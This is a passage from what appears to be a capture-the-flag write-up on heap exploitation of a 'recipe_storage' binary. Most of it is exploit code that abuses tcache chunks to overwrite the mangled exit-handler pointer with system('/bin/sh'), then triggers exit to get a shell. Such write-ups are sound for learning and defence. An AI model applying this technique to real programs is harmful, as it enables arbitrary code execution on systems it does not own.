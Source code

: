 <br>
And the terminal looks like:<br>
<img src="/assets/images/linux/heap/writeups/recipe_storage/recipe_terminal_4.png" style="width:100%; height:100%;" />
<br>
Now comes the last part of the exploit, where we allocate another chunk on top of the initial struct and use this chunk to write the encrypted system as well as the address of '/bin/sh' (calculated from libc) so that **exit** will call **system(/bin/sh)**:<br>
```
# since we cannot edit all the way to initial+32 because of the strlen
# function, we need to alloc a new tcache chunk on top of the old one
# We cannot free chunk 14 since it will kill the program

free(12)
free(7)

free(6)

p = b"N"*0x410
p += p64(0)
p += p64(0x71)
p += p64(addr)
malloc(6, 0x5b0, p)

binsh = libc + 0x1cb42f
system = libc + 0x58750

# encrypt system
enc_system = ptr_mangle(system, l_cookie)

# restore the values at initial and also overwrite enc dl_fini with enc system
# first arg to system will be taken from initial+32 - does not need to be encryped
# to give overview
p = p64(0) # initial+0
p += p64(1) # initial+8
p += p64(4) # initial+16
p += p64(enc_system) # initial+24
p += p64(binsh) # initial+32

malloc(2, 0x60, b"A")
malloc(3, 0x60, p)

# call exit
io.sendlineafter(b"> ", b"5")

io.interactive()
```
<br>
And in **run_exit_handlers** called by **exit** we see that **system(/bin/sh)** is called:<br>